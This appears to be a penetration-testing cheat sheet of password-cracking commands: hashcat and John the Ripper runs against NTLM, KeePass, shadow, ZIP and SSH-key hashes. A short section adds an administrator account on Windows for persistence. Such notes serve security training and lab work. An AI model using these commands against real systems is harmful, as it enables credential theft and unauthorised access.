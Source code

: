 ```jsx
hashcat -m 1000 hashes /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --show
```

```jsx
keepass2john Database.kdbx > keepass.hash
# nano keepass.hash (remove "Database:" from the beginning)
hashcat -m 13400 keepass.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/rockyou-30000.rule --force
hashcat -m 13400 password /usr/share/wordlists/fasttrack.txt --force
```

```jsx
hashcat -m 5600 web_svc.ntlm2 /usr/share/wordlists/rockyou.txt --force
```

### John

<aside>
💡 If john shows nothing to crack - and didn’t run even a second → worth a try to reset with

```jsx
rm ~/.john/john.*
```

</aside>

```jsx
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

```jsx
unshadow passwd.txt shadow.txt > unshadowed.txt
john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
if we see no password loaded -> john needs help identifying the hash
john mario-unshadowed --wordlist=/usr/share/wordlists/rockyou.txt --format=crypt
```

```jsx
zip2john sitebackup3.zip > zipjohn
john zipjohn --wordlist=/usr/share/wordlists/rockyou.txt

7z x sitebackup3.zip
```

```jsx
ssh2john id_rsa > ssh.hash
john ssh.hash -wordlist=/usr/share/wordlists/rockyou.txt
```

# Persistence

### Add admin on Windows

```jsx
net user /add [username] [password]
net localgroup administrators [username] /add
```
